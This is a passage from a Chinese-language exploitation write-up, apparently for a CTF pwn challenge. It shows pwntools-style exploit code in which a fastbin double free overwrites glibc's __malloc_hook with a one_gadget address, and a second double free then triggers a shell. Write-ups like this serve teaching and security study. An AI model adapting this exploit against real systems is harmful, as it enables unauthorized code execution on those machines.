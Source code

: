 ​ 上一步通过泄露得到libc基址，从而就可以计算出**__malloc_hook**的虚拟地址。我们通过Fastbin attack，申请一个0x70大小的chunk到**__malloc_hook**附近，这个附近到底是多少呢？

​ 由于fastbin在malloc过程中，为了满足fastbin_index检查，我们通过gdb调试找到**__malloc_hook**-0x23处正好有一个**size=0x7f**的位置，如下图所示。

[![](https://p2.ssl.qhimg.com/t01ed35a8c5179d345f.png)](https://p2.ssl.qhimg.com/t01ed35a8c5179d345f.png)

```
#double free to change __malloc_hook
one_gadget = 0xf02a4
log.success("one_gadget:"+hex(libc_base+one_gadget))
malloc_hook = libc_base + libc.symbols["__malloc_hook"]
log.success("__malloc_hook:"+hex(malloc_hook))
#use fastbin double free to change __malloc_hook
add(0x60, "a"*0x8, "4")
add(0x60, "b"*0x8, "5")
dele(4)
dele(5)
dele(4)
#malloc_hook-0x13, fake fastbin size 0x7f to pass fastbin_index check
add(0x60, p64(malloc_hook-0x13-0x10), "6") 
add(0x60, "e"*0x8, "7")
add(0x60, "f"*0x8, "8")
add(0x60, "a"*0x13+p64(libc_base+one_gadget), "9")
```

​ 此时申请的9号chunk位于**__malloc_hook**-0x13-0x10的位置，gdb调试查看，发现**__malloc_hook**被改写为one_gadget，如下图所示。

[![](https://p5.ssl.qhimg.com/t01d4fa3dd0651bdf02.png)](https://p5.ssl.qhimg.com/t01d4fa3dd0651bdf02.png)

​ 其中one_gadget可以通过工具从lib.so.6（我的版本libc-2.23.so）中帮我们获取（[one_gadget](https://github.com/david942j/one_gadget)工具），加上泄露的libc基址即one_gadget在内存中的虚拟地址。

[![](https://p0.ssl.qhimg.com/t01f6cd722d72639b19.png)](https://p0.ssl.qhimg.com/t01f6cd722d72639b19.png)

​ 经测试，0xf02a4处的one_gadget可以执行成功。

### <a class="reference-link" name="2.3%20%E5%88%A9%E7%94%A8__malloc_hook%E5%8A%AB%E6%8C%81%E7%A8%8B%E5%BA%8F%E6%B5%81%E7%A8%8B"></a>2.3 利用__malloc_hook劫持程序流程

​ 直接调用malloc无法触发**__malloc_hook**，因为one_gadgets的条件限制不满足，执行均不会成功，此时我们再一次利用double free触发**malloc_printerr**，在错误处理过程中会调用malloc触发**__malloc_hook**从而执行one_gadget得到shell，如下图所示。

```
dele(6)
dele(6)
p.interactive()
```

[![](https://p3.ssl.qhimg.com/t011c73f325d5f3cb45.png)](https://p3.ssl.qhimg.com/t011c73f325d5f3cb45.png)
